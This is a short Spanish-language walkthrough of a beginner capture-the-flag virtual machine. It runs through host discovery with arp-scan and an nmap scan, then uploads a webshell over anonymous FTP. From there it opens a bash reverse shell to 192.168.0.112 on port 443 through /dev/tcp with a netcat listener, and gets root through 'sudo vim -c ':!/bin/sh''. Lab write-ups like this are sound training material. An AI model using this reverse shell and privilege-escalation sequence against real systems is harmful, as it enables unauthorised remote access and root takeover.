

En este reto nos encontramos con escaneo , configuracion erronea en uno de sus servicios y escalado de privilegios con binario.
Este es el primer reto que consiguo hacer solo consultando la web de gotfbins para saber para aprender como usar el binario.
Empezamos averiguando la ip de la maquina victima para ello ejecutamos la herramienta arp-scan nos fijamos en el resultado y buscamos la mac que empieza por 08:00 esa mac es de virtualbox.
Ejecutamos:
sudo arp-scan --localnet

Una vez obtenida la ip pasamos al escanear puertos
nmap -sC -sV -A -p- --min-rate 5000 $ip

Vemos que tiene el 21 y el 80 abierto en el 21 tenemos login anonynous y nos permite subir ficheros.
Nos subimos un webshell al servidor que podemos encontrar en github.
Creamos un archivo .html con el siguiente contenido , lo subimos y posteriormente lo ejecutamos a traves del webshell que subimos
#!/bin/bash bash -i >& /dev/tcp/192.168.0.112/443 0>&1

Antes de ejecutar desde el webshell el archivo que subimos debemos ponernos con netcat a la escucha.
nc -lnvp 443

Una vez con la tty en nuestra maquina atacante buscamos binarios por con permisos para ello probamos primero un :
sudo -l

El binario que nos muestra nos sirve para la escalada de privilegios podemos vistar gtofbins para consulta
Ahora ejecutamos vim como se indica gotfbins.
sudo vim -c ':!/bin/sh'
Obtendremos automaticamente root

Si os interesan las flags no os olvideis de buscarlas .
Gracias por leer este reto.